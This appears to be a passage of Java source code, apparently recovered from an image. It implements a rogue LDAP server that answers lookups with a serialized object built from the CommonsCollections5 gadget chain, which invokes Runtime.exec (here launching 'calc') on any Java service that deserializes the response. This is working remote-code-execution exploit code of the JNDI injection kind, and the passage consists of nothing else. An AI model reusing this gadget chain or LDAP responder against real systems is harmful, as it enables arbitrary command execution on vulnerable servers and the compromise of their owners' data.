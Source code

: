 ```
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData",CommonsCollections5());

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}
```
